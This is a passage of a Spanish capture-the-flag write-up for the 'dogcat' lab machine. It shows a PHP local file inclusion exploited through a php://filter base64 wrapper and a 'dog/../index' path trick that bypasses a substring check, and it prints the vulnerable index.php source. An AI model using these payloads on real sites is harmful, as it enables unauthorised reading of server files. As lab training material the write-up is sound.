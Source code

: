 - Al parecer la máquina por detrás concatena una extensión `.php` a los archivos.
- Si tuviéramos una versión de PHP 5.x podríamos concatenar un null byte `%00` para ver su contenido.

- Podemos utilizar `wrappers` de PHP para intentar ver por ejemplo un recurso de la página.
- En mi caso, introduje lo siguiente en la URL:

~~~
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog
~~~

- Y me regresó una cadena en base64.
- Si la desencodeamos, podremos ver algo interesante:

~~~bash
❯ echo -n PGltZyBzcmM9ImRvZ3MvPD9waHAgZWNobyByYW5kKDEsIDEwKTsgPz4uanBnIiAvPg0K | base64 -d
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
~~~

- Intenté mostrar algún otro archivo pero no tuve suerte.
- Se me ocurrió que por el mensaje que nos pone al introducir cualquier cosa que no sea `dog` o `cat` se comprueba si estas cadenas están en la URL, así que hice esto:

~~~
http://dogcat.thm/?view=php://filter/convert.base64-encode/resource=dog/../index
~~~

- De esta forma obtuvimos una cadena bastante larga en base64.
- Podemos revertirla y ver el contenido del index:

~~~bash
❯ cat index.php | base64 -d | sponge
~~~

- Y tenemos el index:

~~~php
<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

    <div>
        <h2>What would you like to see?</h2>
        <a href="/?view=dog"><button id="dog">A dog</button></a> <a href="/?view=cat"><button id="cat">A cat</button></a><br>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	   $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
    </div>
</body>

~~~